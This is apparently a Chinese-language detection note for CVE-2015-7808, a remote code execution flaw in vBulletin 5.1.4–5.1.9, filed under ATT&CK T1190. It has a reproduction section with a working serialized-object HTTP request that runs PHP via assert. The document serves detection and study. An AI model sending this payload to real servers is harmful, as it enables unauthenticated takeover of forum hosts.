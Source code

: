 # T1190-vBulletin5.X-RCE检测

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## CVE-2015-7808漏洞

vBulletin是用PHP编写的可定制的论坛程序套件。

vBulletin 5.1.4-5.1.9版本，某些内部API处理Ajax请求时，未验证其来源，这可使攻击者无需身份验证调用继承自vB_Api及/core/vb/api/下任意类的任意公共方法，其中decodeArguments()方法内的unserialize()函数存在安全漏洞，可使攻击者在‘$args’变量中注入精心构造的任意对象，远程执行php代码，获取服务器权限。

### 影响版本

VBulletin 5.1.4 - 5.1.9

### 测试案例

请参考：

vBulletin5.X前台RCE分析（CVE-2015-7808）

<https://xz.aliyun.com/t/6497>

vBulletin 5 全版本远程代码执行漏洞分析

<https://www.anquanke.com/post/id/82870>

### 检测日志

访问日志

### 测试复现

```yml
GET /vBulletin/ajax/api/hook/decodeArguments?arguments=O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2A%00db%22%3BO%3A17%3A%22vB_Database_MySQL%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A6%3A%22assert%22%3B%7D%7Ds%3A12%3A%22%00%2A%00recordset%22%3Bs%3A9%3A%22phpinfo%28%29%22%3B%7D HTTP/1.1
Host: 192.168.0.106
Cookie: XDEBUG_SESSION=PHPSTORM
Connection: close
```

解码后：

```yml
GET /vBulletin/ajax/api/hook/decodeArguments?arguments=O:12:"vB_dB_Result":2:{s:5:"*db";O:17:"vB_Database_MySQL":1:{s:9:"functions";a:1:{s:11:"free_result";s:6:"assert";}}s:12:"*recordset";s:9:"phpinfo()";} HTTP/1.1
```
